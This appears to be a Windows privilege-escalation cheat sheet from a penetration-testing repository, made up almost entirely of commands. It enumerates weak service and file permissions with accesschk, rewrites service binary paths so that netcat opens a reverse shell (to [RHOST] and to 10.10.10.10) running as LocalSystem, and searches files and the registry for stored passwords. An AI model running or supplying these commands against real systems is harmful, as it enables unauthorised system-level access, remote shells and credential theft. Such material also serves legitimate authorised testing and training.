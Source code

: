 # Service permissions
sc query
sc qc [service_name]

# Accesschk stuff
# https://github.com/ankh2054/windows-pentest/tree/master/Privelege
# accesschk seems to get stuck on certain machines without /accepteula
accesschk.exe /accepteula 
accesschk.exe /accepteula -ucqv [service_name] 
accesschk.exe /accepteula -uwcqv "Authenticated Users" * 
accesschk.exe /accepteula -ucqv [service_name]

# Find all weak folder permissions per drive.
accesschk.exe /accepteula -uwdqs Users c:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe /accepteula -uwqs Users c:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*

# Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

# Search for passwords
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

sc qc upnphost
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.10.10.10 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

# If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
